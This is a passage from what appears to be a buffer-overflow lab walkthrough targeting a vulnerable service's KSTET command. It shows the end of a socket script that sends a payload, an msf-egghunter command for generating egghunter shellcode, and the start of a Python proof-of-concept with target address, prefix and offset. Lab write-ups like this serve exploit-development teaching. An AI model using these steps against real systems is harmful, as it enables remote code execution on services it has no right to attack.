 ```python
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

![](images/confirm_jmp.png)

-----

## Payload Stage 2: Egg Hunter

Now, let's set up an egg hunter to search for our shellcode somewhere else.

```bash
msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
```

Here's our proof of concept so far:

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66
```